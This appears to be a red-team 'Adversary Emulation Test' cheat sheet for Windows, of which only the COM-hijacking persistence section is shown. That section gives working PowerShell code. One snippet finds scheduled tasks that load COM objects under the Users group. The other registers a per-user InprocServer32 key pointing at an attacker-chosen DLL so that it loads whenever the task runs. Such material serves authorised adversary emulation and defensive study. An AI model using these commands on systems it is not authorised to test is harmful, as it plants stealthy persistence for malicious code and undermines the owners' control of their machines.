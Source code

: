 # **Adversary Emulation Test**

# **Table Of Contents:**
<!--ts-->
  * [Initial Access](#initial-access)
  * [Host Enumeration](#host-enumeration)
  * [Domain Enumeration](#domain-enumeration)
  * [Persistence](#persistence)
    * [COM Hijacking](#com-hijacking)
    * [DLL Hijacking](#dll-hijacking)
  * [Privilege Escalation](#privilege-escalation)
  * [Lateral Movement](#lateral-movement)
  * [Misc](#misc)
<!--te-->

# **Persistence**

## **COM Hijacking**

### **Enumerating Scheduled Tasks That Call COM Objects**

```
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```

### **Creating New InprocServer32 Registry Key/Value Pair**

```
New-Item -Path "HKCU:\Software\Classes\CLSID" -Name "{<CLISD-ID>}"

New-Item -Path "HKCU:\Software\Classes\CLSID\{<CLISD-ID>}" -Name "InprocServer32" -Value "<Path-To-DLL>"

New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{<CLISD-ID>}\InprocServer32" -Name "ThreadingModel" -Value "Both"

 Get-Item -Path "HKCU:\Software\Classes\CLSID\{<CLISD-ID>}\InprocServer32"
```
